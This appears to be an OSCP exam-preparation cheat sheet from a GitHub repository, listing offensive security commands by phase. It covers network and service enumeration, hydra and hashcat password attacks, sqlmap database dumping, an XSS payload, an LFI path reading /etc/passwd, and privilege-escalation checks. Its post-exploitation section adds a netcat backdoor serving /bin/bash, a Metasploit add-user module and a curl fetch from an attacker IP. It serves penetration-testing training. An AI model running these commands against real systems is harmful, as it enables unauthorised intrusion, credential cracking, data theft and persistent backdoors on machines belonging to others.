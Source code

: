 # OSCP-Exam-NotesOSCP Preparation Repository

This repository is organized into sections for quick access to commands, methodologies, and common exploits relevant to OSCP preparation.

1. Enumeration

1.1 Network Scanning

Nmap Commands

Full TCP port scan:

nmap -p- -T4 -v <target>

Service and version detection:

nmap -sV -sC -p<ports> <target>

UDP scan:

nmap -sU -p<ports> <target>

Output to file:

nmap -oN scan_results.txt <target>

Netcat

Banner grabbing:

nc -nv <target> <port>

Masscan

Fast port scanning:

masscan <target> -p1-65535 --rate=1000

1.2 Service Enumeration

SMB

Enumerate shares:

smbclient -L //<target> -U ""

Connect to a share:

smbclient //<target>/<share> -U <user>

Enum4linux:

enum4linux <target>

FTP

Anonymous login:

ftp <target>

HTTP

Directory brute-forcing:

gobuster dir -u http://<target>/ -w /usr/share/wordlists/dirb/common.txt

Nikto scan:

nikto -h http://<target>/

SNMP

Enumerate SNMP:

snmpwalk -v 2c -c public <target>

2. Exploitation

2.1 Password Attacks

Hydra

SSH brute-force:

hydra -l <user> -P <wordlist> ssh://<target>

HTTP POST brute-force:

hydra -l <user> -P <wordlist> -f -s <port> http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

John the Ripper

Cracking hashes:

john --wordlist=<wordlist> <hash_file>

Showing cracked passwords:

john --show <hash_file>

Hashcat

Cracking example MD5 hashes:

hashcat -m 0 -a 0 <hash_file> <wordlist>

2.2 Web Exploitation

SQLMap

Basic SQL injection:

sqlmap -u "http://<target>/page?id=1" --dbs

Extract tables:

sqlmap -u "http://<target>/page?id=1" -D <database> --tables

Dump data:

sqlmap -u "http://<target>/page?id=1" -D <database> -T <table> --dump

XSS

Basic payload:

<script>alert('XSS');</script>

LFI

Access passwd file:

http://<target>/?file=../../../../../etc/passwd

2.3 Privilege Escalation

Linux

SUID Binaries:

find / -perm -4000 2>/dev/null

Writable files:

find / -writable -type f 2>/dev/null

Check kernel exploits:

uname -a
searchsploit <kernel_version>

Windows

Identify vulnerable services:

wmic service get name,displayname,pathname,startmode | findstr "Auto" | findstr /i /v "C:\Windows\\"

Check for unquoted service paths:

wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows"

3. Post-Exploitation

3.1 Maintaining Access

Netcat

Persistent backdoor:

nc -lvnp <port> -e /bin/bash

Metasploit

Add user:

run post/windows/manage/add_user

3.2 Data Exfiltration

Download files with curl:

curl -O http://<attacker_ip>:<port>/<file>

4. Tools and Wordlists

4.1 Tools

Impacket: SMB enumeration and exploitation.

Metasploit: Exploitation framework.

LinPEAS: Linux privilege escalation enumeration.

WinPEAS: Windows privilege escalation enumeration.

4.2 Wordlists

RockYou: /usr/share/wordlists/rockyou.txt

SecLists: /usr/share/seclists/-Prep

